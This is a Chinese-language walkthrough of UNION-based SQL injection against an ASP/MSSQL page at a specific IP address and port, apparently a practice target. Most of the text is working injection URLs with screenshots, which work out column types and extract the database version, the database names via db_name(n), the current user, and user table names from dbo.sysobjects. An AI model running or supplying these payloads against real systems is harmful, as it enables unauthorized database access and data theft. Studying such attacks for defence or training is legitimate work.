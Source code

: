 ```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'null','null',null -- qwe
```

![](https://p3.ssl.qhimg.com/t01661e89ccac5d5661.png)
当第一个字符设置为字符串格式时，页面报错，很明显这个就是id了，为整型字符。

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select 'null','null','null',null -- qwe
```

![](https://p5.ssl.qhimg.com/t0100837f900c3ef729.png)

## 3、通过显错点获取数据库信息

1、获取数据库版本

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select @@version),null -- qwe
```

![](https://p4.ssl.qhimg.com/t012f189779bf95f529.png)
2、查询当前数据库名称
通过轮询db_name(*)里*的内容，获取所有数据库库名

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name()),null -- qwehttp://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(1)),null -- qwehttp://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(2)),null -- qwehttp://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(3)),null -- qwehttp://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(4)),null -- qwehttp://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(5)),null -- qwe
```

![](https://p5.ssl.qhimg.com/t01b48e6d8d29baefaa.png)
![](https://p4.ssl.qhimg.com/t01409617b57bcdb809.png)
3、查询当前用户

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select user),null -- qwe
```

![](https://p3.ssl.qhimg.com/t01e868a65736530e91.png)


## 4、查询表名

查询dbo.sysobjects表中用户创建的表，获取其对应的id和name

```php
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,id,name,null from dbo.sysobjects where xtype='U' -- qwe
```
